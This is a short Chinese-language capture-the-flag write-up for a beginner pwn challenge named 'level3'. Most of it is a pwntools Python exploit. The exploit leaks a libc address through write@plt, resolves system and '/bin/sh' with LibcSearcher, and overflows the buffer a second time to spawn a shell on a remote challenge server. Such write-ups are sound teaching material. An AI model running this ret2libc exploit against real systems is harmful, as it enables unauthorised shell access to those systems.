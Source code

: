 该题理论上是新手入坑中最难的一题，因为题目没有提供libc文件，并且system不是程序的导入函数，所以必须手动leak libc。注意由于一次溢出劫持控制流并不能完成利用，所以需要在leak libc之后返回到vulnerable function，再次溢出执行system("/bin/sh")。这里使用了LibcSearcher（[repo地址](https://github.com/lieanu/LibcSearcher)）。

```python
from pwn import *
from LibcSearcher import *

context.log_level = "debug"
elf = ELF("./level3")
p = remote("111.198.29.45" ,31718)
# p = process("./level3")

offset = 0x88 + 4
p.recvuntil("Input:\n")
rop = offset * "a"
rop += p32(elf.plt['write'])
rop += p32(0x804844b)
rop += p32(1) + p32(elf.got['__libc_start_main']) + p32(4)
p.sendline(rop)
addr = u32(p.recvuntil("\xf7")[-4:])
print hex(addr)

obj = LibcSearcher('__libc_start_main', addr)
libc_base = addr - obj.dump("__libc_start_main")
system = libc_base + obj.dump("system")
binsh = libc_base + obj.dump("str_bin_sh")

p.recvuntil("Input:\n")
rop = offset * "a"
rop += p32(system)
rop += p32(0x804844b)
rop += p32(binsh)
p.sendline(rop)

p.interactive()

```

